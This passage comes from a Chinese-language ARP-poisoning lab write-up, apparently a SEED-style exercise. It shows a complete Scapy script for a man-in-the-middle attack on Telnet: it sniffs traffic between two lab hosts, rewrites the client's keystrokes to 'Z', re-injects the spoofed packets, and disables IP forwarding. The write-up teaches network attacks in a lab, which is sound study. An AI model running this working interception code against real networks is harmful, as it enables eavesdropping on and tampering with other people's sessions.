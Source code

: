根据提示，我们将内容修改，将所有字母替换为 Z 。关于过滤，我们选择`f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'`，直接锁定mac地址

```python
#!/usr/bin/env python3
from scapy.all import *
import re

# Who can it be used? Write first!
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"


print("********** MITM attack on Telnet **********")


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            data = data.decode()
            print("Old:"+data)
            newdata = re.sub(r'[a-zA-Z]', r'Z', data)
            print("New:"+newdata)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)


f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

接下来关闭转发，并启动中间人攻击

```
sysctl net.ipv4.ip_forward=0
```

![image-20220505225535547](ARPCachePoisoning/image-20220505225535547.png)
